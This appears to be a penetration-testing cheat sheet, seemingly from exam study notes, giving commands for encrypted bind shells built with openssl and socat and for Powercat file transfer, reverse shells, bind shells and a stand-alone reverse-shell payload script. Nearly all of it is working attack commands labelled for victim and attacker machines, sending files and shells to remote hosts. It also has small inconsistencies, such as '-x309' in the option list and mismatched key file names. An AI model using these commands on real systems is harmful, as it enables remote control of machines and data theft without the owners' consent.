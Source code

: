   ### Encrypted Bind Shells
  We will use **openssl** to create a self-signed cert with the following options:
  * **req**
  * **-newkey**
  * **rsa:2048**
  * **-nodes**
  * **-keyout**
  * **-x309**
  * **-days**
  * **-out**
    ```bash
     openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out shell.crt
     ```
     ```bash
     cat shell.key shell.crt > shell.pem
     ```
     <br>
     
     ```bash
     #Victim's machine
     sudo socat OPENSSL-LISTEN:443,cert=shell.pem,verify=0,fork EXEC:/bin/bash
     ```
     ```bash
     #Attacker's machine
     socat - OPENSSL:<Victim's IP>:443,verify=0
     ```
     
## Powercat
Powercat can be installed in our Kali with *apt install powercat*, and the script will be placed in */usr/share/windows-resources/powercat*.

### File Transfers
```powershell
#Transmitter
powercat -c X.X.X.X -p 443 -i C:\Users\xonork\some_file.txt
```

### Reverse Shell
```powershell
#Victim's machine
powercat -c X.X.X.X -p 443 -e cmd.exe
```

### Bind Shell
```powershell
#Victim's machine
powercat -l -p 443 -e cmd.exe
```

### Stand-Alone Payloads
```powershell
#Victim's machine
powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverse.ps1
./reverse.ps1
#This script mightr be easily detected by IDS. It's very large, it has 300 lines of code and hardcoded strings that can be
#easily be used in signatures for malicious activity.
```
